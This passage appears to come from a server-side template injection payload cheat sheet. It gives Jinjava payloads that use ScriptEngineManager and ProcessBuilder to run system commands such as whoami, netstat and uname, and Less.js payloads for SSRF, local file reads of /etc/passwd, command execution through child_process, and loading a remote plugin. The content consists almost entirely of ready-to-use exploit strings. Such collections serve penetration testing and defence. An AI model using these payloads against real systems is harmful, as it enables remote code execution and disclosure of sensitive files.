 Fixed by https://github.com/HubSpot/jinjava/pull/230

```python
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

---

## Lessjs

[Official website](https://lesscss.org/)
> Less (which stands for Leaner Style Sheets) is a backwards-compatible language extension for CSS. This is the official documentation for Less, the language and Less.js, the JavaScript tool that converts your Less styles to CSS styles.

### Lessjs - SSRF / LFI

```less
@import (inline) "http://localhost";
// or
@import (inline) "/etc/passwd";
```

### Lessjs < v3 - Command Execution

```less
body {
  color: `global.process.mainModule.require("child_process").execSync("id")`;
}
```

### Plugins

Lessjs plugins can be remotely included and are composed of Javascript which gets executed when the Less is transpiled.

```less
// example local plugin usage
@plugin "plugin-2.7.js";
```
or
```less
// example remote plugin usage
@plugin "http://example.com/plugin-2.7.js"
```
